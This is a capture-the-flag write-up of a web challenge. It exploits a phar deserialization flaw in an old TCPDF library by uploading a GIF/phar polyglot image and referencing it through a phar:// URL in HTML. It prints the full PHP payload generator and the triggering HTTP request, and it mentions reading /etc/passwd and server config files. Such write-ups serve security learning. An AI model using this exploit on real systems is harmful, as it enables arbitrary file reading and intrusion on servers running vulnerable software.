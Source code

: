 ## Introduction
This challenge gives us a web app and its source code. Basically, the flow of that web app is:
- Users upload an image (png, jpg, jpeg, gif) and get the uploaded url
- Users post arbitrary html content to generate a pdf, the above image url can be included in the html content

## Analysis
Firstly, I uploaded a malformed image and got an error related to `imagemagick` in the process of creating pdf file by `tcpdf` library. This made me think of the idea of [imagetragick](https://imagetragick.com/). However, I threw this thought away when I saw functions that check the format of image files through their exif. That check prevent us to create a completed payload for the imagetragick attack.

```php
	if(function_exists('exif_imagetype')) { //Die exif_imagetype-Funktion erfordert die exif-Erweiterung auf dem Server
	 $allowed_types = array(IMAGETYPE_PNG, IMAGETYPE_JPEG, IMAGETYPE_GIF);
	 $detected_type = exif_imagetype($_FILES['file']['tmp_name']);
	 
	 
	 if(!in_array($detected_type, $allowed_types)) {
	 echo("<div class=\"container\">Only pictures allowed!</div>");
	 return;
	 }
	}
```


By googling about `tcpdf` library, I found a deserialization vulnerability in its [old version](https://packetstormsecurity.com/files/152200/TCPDF-6.2.19-Deserialization-Remote-Code-Execution.html). I reviewed our source code and compared it to that exploit and realized that we have ideal factors to create a perfect attack:
- tcpdf version 6.2.13 affected by that vulnerability
- A destruct method is defined in class PDFCreator (creator.php), this method included `file_get_contents()` function that can be trigged to read arbitrary files in the server.

## Exploit
The exploit code provided in [that paper](https://packetstormsecurity.com/files/152200/TCPDF-6.2.19-Deserialization-Remote-Code-Execution.html) is very straightforward, we can use it with a little bit of modifying. Below is what I did:
### 1. Create a valid image included the payload by using the code below
```php
<?php
namespace PDFStuff {
	
	# Define the vulnerable class
	class PDFCreator { public $tmpfile; }
	
	$phar_file = "poc.phar";
	$image_file = "poc.gif";

	# Initialize a Phar class
	$phar = new \Phar($phar_file);
	$phar->startBuffering();
	$phar->addFromString("test.txt", "test");
	
	# Set stub with gif prefix to bypass image checking
	$phar->setStub("GIF89a<?php __HALT_COMPILER();");

	$payload = new PDFCreator();
	
	# Create a payload to read flag file
	$payload->tmpfile = "/var/www/site/flag.php"; 
	$phar->setMetadata($payload);
	$phar->stopBuffering();
	rename($phar_file, $image_file);
}
```
If you want to try it, save it as a php file (payload.php) and turn off `phar.readonly` directive in `php.ini` then execute the command `php payload.php`. You will get file `poc.gif` and use it to do next steps.
I should explain a bit about some special points in my code:
- `GIF89a` is included as the prefix of output file because I want to bypass extension checking
- We have to pass to `$payload->tmpfile` the file we want to read. I tried with `flag.php` and got failed, but `/etc/passwd` worked so I think we need an absolute path. I read `/etc/apache2/sites-enabled/000-default.conf` first to get the full path of web source code and then luckily, I found `/var/www/site/flag.php`

### 2. Upload file and get flag
- From frontend, upload the created `poc.gif` and get the uploaded url
- Create a request like below to get pdf, the flag will be included in the response
```
POST /index.php HTTP/1.1
Host: hax.allesctf.net:3333

pdfcontent=<img src="phar://upload/df911f0151f9ef021d410b4be5060972.gif">
```
- Flag is `ALLES{phar_jpeg_polyglot_madness_such_w0w}`
